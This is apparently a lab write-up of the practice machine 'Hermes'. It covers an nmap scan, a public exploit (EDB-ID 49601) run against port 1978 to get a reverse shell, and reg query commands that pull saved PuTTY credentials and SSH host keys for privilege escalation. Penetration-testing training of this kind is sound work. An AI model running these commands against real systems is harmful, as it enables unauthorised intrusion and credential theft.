







# HERMES

## Enumeration

```
Nmap scan report for 192.168.152.145
Host is up (0.052s latency).

PORT     STATE    SERVICE       VERSION
21/tcp   open     ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open     http          Microsoft IIS httpd 10.0
|_http-title: Samuel's Personal Site
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds?
1978/tcp open     unisql?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    system windows 6.2
3389/tcp open     ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-08-01T23:36:29+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: OSCP
|   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: OSCP
|   DNS_Domain_Name: oscp
|   DNS_Computer_Name: oscp
|   Product_Version: 10.0.19041
|_  System_Time: 2024-08-01T23:35:49+00:00
| ssl-cert: Subject: commonName=oscp
| Not valid before: 2024-06-01T17:05:40
|_Not valid after:  2024-12-01T17:05:40
7680/tcp filtered pando-pub
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1978-TCP:V=7.94SVN%I=7%D=8/1%Time=66AC1B39%P=x86_64-pc-linux-gnu%r(
SF:NULL,14,"system\x20windows\x206\.2\n\n")%r(GenericLines,14,"system\x20w
SF:indows\x206\.2\n\n")%r(GetRequest,14,"system\x20windows\x206\.2\n\n")%r
SF:(HTTPOptions,14,"system\x20windows\x206\.2\n\n")%r(RTSPRequest,14,"syst
SF:em\x20windows\x206\.2\n\n")%r(RPCCheck,14,"system\x20windows\x206\.2\n\
SF:n")%r(DNSVersionBindReqTCP,14,"system\x20windows\x206\.2\n\n")%r(DNSSta
SF:tusRequestTCP,14,"system\x20windows\x206\.2\n\n")%r(Help,14,"system\x20
SF:windows\x206\.2\n\n")%r(SSLSessionReq,14,"system\x20windows\x206\.2\n\n
SF:")%r(TerminalServerCookie,14,"system\x20windows\x206\.2\n\n")%r(TLSSess
SF:ionReq,14,"system\x20windows\x206\.2\n\n")%r(Kerberos,14,"system\x20win
SF:dows\x206\.2\n\n")%r(SMBProgNeg,14,"system\x20windows\x206\.2\n\n")%r(X
SF:11Probe,14,"system\x20windows\x206\.2\n\n")%r(FourOhFourRequest,14,"sys
SF:tem\x20windows\x206\.2\n\n")%r(LPDString,14,"system\x20windows\x206\.2\
SF:n\n")%r(LDAPSearchReq,14,"system\x20windows\x206\.2\n\n")%r(LDAPBindReq
SF:,14,"system\x20windows\x206\.2\n\n")%r(SIPOptions,14,"system\x20windows
SF:\x206\.2\n\n")%r(LANDesk-RC,14,"system\x20windows\x206\.2\n\n")%r(Termi
SF:nalServer,14,"system\x20windows\x206\.2\n\n")%r(NCP,14,"system\x20windo
SF:ws\x206\.2\n\n")%r(NotesRPC,14,"system\x20windows\x206\.2\n\n")%r(JavaR
SF:MI,14,"system\x20windows\x206\.2\n\n")%r(WMSRequest,14,"system\x20windo
SF:ws\x206\.2\n\n")%r(oracle-tns,14,"system\x20windows\x206\.2\n\n")%r(ms-
SF:sql-s,14,"system\x20windows\x206\.2\n\n")%r(afp,14,"system\x20windows\x
SF:206\.2\n\n")%r(giop,14,"system\x20windows\x206\.2\n\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Anonymous Attempts

#### FTP

Anonymous login was allowed but it kept having issues with passive mode so I looked elsewhere hoping this was not the key to success.

#### RPC and SMB

No luck:

<figure><figcaption><p>Failed access attempts</p></figcaption></figure>

### Web Server Port 80

The web server at port 80 was nothing too interesting. None of the software seemed vulnerable. I ran `feroxbuster` and such but found no interesting items.

### Port 1978

It took awhile to figure out what was running here. My [usual source](https://www.speedguide.net/port.php?port=1978) for this stuff was less than helpful. I chased my tail for awhile but eventually I just Googled "[port 1978 CVE](https://www.google.com/search?client=firefox-b-1-e\&q=port+1978+cve)" and found EDB-ID 49601. This was the first RCE I had really found for this machine so I [gave it a shot](hermes.md#id-49601).

## Foothold

### 49601

[EDB-ID 49601](https://www.exploit-db.com/exploits/49601) is the exploit. At first it seems not to work if just run with the `python` command. That is because it uses old Python2-style string handling which causes errors. If run with the `python2` command it works perfectly:

```
python2 49601.py 192.168.235.145 192.168.45.154 rs135.exe
```

<figure><figcaption><p>Fails as Python3</p></figcaption></figure>

<figure><figcaption><p>Succeeds with Python2</p></figcaption></figure>

A shell is caught on port 135:

<figure><figcaption><p>Catching incoming shell</p></figcaption></figure>

User access achieved.

## Privilege Escalation

When examining the installed software, PuTTY is found. This means the system should be checked for any SSH keys and credentials that might be stored on the machine.

### SSH Credentials

[PuTTY](https://www.putty.org/) is a free and open-source terminal emulator, serial console and network file transfer application. It supports several network protocols, including SCP, SSH, Telnet, rlogin, and raw socket connection. It can also connect to a serial port.

#### Registry Queries

[According to HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#putty-creds), PuTTY creds are sometimes saved in the registry and can be queried with:


```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
```


* This command checks the values saved in each session, as a user/password could be there

Sometimes filtering the output as seen here is helpful but sometimes it removes valid entries (as happened in this lab - only query above actually retrieved creds)


```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername"
```


Alternatively, SSH Host Keys may be leaked with the query:

```
reg query HKCU\Software\SimonTatham\PuTTY\SshHostKeys\
```

The same type of thing can be done with OpenSSH keys but a [different registry path](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#ssh-keys-in-registry) is obviously needed.

In this instance the first query retrieved credentials for `zachary`:

<figure><figcaption><p>Credentials retrieved</p></figcaption></figure>

I validate the with CME:

<figure><figcaption><p>Validating with CME</p></figcaption></figure>

It turns out he has RDP access and is a member of  `BUILTIN\Administrators`:

<figure><figcaption><p>Member of local Administrators</p></figcaption></figure>

Machine completed.
